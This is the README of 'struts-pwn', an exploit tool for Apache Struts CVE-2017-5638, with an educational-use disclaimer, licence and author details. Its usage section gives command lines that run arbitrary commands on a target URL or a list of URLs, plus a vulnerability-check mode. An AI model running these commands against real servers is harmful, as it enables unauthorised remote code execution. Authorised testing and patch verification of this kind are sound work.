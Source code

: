 *struts-pwn*
============

### An exploit for Apache Struts CVE-2017-5638 ###


# Usage

## Testing a single URL.

`python struts-pwn.py --url 'http://example.com/struts2-showcase/index.action' -c 'id'`

## Testing a list of URLs.

`python struts-pwn.py --list 'urls.txt' -c 'id'`

## Checking if the vulnerability exists against a single URL.

`python struts-pwn.py --check --url 'http://example.com/struts2-showcase/index.action'`

## Checking if the vulnerability exists against a list of URLs.

`python struts-pwn.py --check --list 'urls.txt'`


# **Requirements**

* Python2 or Python3
* requests


# **Legal Disclaimer**#
This project is made for educational and ethical testing purposes only. Usage of struts-pwn for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# **License**

The project is licensed under MIT License.


# **Author**

*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: *mazin AT mazinahmed DOT net*
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)

